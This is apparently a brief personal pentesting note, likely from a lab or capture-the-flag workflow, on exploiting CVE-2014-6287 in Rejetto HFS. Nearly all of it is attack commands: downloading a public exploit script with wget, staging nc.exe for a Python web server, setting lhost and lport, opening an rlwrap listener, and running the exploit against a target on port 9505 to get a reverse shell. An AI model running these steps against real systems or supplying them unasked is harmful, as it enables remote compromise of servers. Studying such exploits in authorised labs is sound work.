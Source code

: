 ```
wget https://gist.githubusercontent.com/AfroThundr3007730/834858b381634de8417f301620a2ccf9/raw/783473905951169e49afaf5958e89b23f5a8743f/cve-2014-6287.py
```
```
mkdir bin && cp /usr/share/windows-resources/binaries/nc.exe ./bin
```
[[Python#Server]]
Update lhost and lport variables.
[[1._rlwrap]]
```
python cve-2014-6287.py $TARGET 9505
```
